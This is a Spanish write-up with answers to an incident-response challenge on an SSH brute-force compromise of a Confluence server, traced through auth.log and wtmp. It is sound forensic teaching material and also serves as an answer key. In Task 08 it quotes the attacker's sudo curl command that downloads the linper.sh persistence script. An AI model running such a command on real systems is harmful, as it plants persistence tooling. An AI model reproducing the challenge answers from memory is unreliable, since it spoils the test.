






  

---

# Escenario del Sherlock

En este Sherlock, te familiarizarás con los registros auth.log y wtmp de Unix. Exploraremos un escenario en el que un servidor Confluence fue atacado mediante fuerza bruta a través de su servicio SSH. 
Tras obtener acceso al servidor, el atacante realizó actividades adicionales, las cuales podemos rastrear utilizando auth.log. Aunque auth.log se utiliza principalmente para el análisis de fuerza bruta, 
profundizaremos en todo el potencial de este artefacto en nuestra investigación, incluyendo aspectos de escalada de privilegios, persistencia e incluso cierta visibilidad sobre la ejecución de comandos.

---

# Preguntas

## Tarea 01

**Analiza el auth.log. ¿Cuál es la dirección IP utilizada por el atacante para llevar a cabo un ataque de fuerza bruta?**

Abrimos los registros de autenticación.

Vemos varios intentos de sesión fallidos relacionados a la IP 65.2.161.68.

**Respuesta:** `65.2.161.68`

## Tarea 02

**Los intentos de fuerza bruta tuvieron éxito y el atacante obtuvo acceso a una cuenta en el servidor. ¿Cuál es el nombre de usuario de la cuenta?**

Como se ve en la figura anterior, se acepto una contraseña al usuario root.

**Respuesta:** `root`

## Tarea 03

**Identifica la marca de tiempo UTC cuando el atacante inició sesión manualmente en el servidor y estableció una sesión de terminal para llevar a cabo sus objetivos. 
La hora de inicio de sesión será diferente de la hora de autenticación y se puede encontrar en el artefacto wtmp.**

wtmp es un archivo binario de registro en Linux (ubicado en /var/log/wtmp) que almacena el historial de inicios de sesión, cierres de sesión, reinicios y apagados del sistema.

Usaremos el script en Python que se nos otorga para poder leerlo.

**Respuesta:** `2024-03-06 06:32:45`

## Tarea 04

**Las sesiones de inicio de sesión SSH se rastrean y se les asigna un número de sesión al iniciar sesión. ¿Qué número de sesión se le asignó a la sesión del atacante para la cuenta de usuario de la Pregunta 2?**

**Respuesta:** `37`

## Tarea 05

**El atacante agregó un nuevo usuario como parte de su estrategia de persistencia en el servidor y le otorgó a esta nueva cuenta de usuario privilegios más altos. ¿Cuál es el nombre de esta cuenta?**

**Respuesta:** `cyberjunkie`

## Tarea 06

**¿Qué ID de sub-técnica de MITRE ATT&CK se utiliza para la persistencia mediante la creación de una nueva cuenta?**

Para la persistencia mediante la creación de una cuenta (técnica T1136, Create Account, dentro de la táctica TA0003 Persistence).

T1136.001 – Local Account (Cuenta local): creación de cuentas en un sistema individual, dispositivo de red o servidor ESXi.

**Respuesta:** `T1136.001`

## Tarea 07

**¿A qué hora terminó la primera sesión SSH del atacante según auth.log?**

**Respuesta:** `2024-03-06 06:37:24`

## Tarea 08

**El atacante inició sesión en su cuenta de puerta trasera y utilizó sus privilegios más altos para descargar un script. ¿Cuál es el comando completo ejecutado usando sudo?**

**Respuesta:** `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`
